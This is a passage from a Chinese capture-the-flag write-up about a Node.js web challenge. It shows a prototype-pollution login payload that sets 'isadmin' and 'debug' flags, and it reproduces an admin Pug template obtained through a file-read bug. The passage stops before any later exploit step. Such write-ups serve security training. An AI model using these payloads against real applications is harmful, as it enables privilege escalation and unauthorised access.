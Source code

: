 继续看代码，发现`session.debug`后将`query`请求的`p`赋到了`info.pretty`里。

![image-20210803153247822](2021dfjk/image-20210803153247822.png)

---

要达到p，首先要覆盖`session.debug`，所以上一步最终payload为

```php
username=112222&password=123456&a".constructor.prototype["isadmin=&a".constructor.prototype["debug=
```

---



利用文件读取读到了`/app/view/admin.pug`

```pug
html
  head
    title= title
    meta(http-equiv="Content-Type", content="text/html;charset=UTF-8")
  body

    mixin hello(text)
      p= text
      div #{msg}

    mixin printdiy()
      div 个性签名：
        div #{diy}
        div ---#{msg}

    form(action="", method="get")
      div 更改图片
        select(name="newimg")
          option(value="./images/1.png") 纸飞机
          option(value="./images/2.png") 人
          option(value="./images/3.png") 小火车
      div 个性签名
        input(type="text" name="diy" value="尊贵的admin可以在这更改个性签名")
      input(type="submit")


    div <img src='#{png}'>
    +hello("哈喽")
    +printdiy()
```
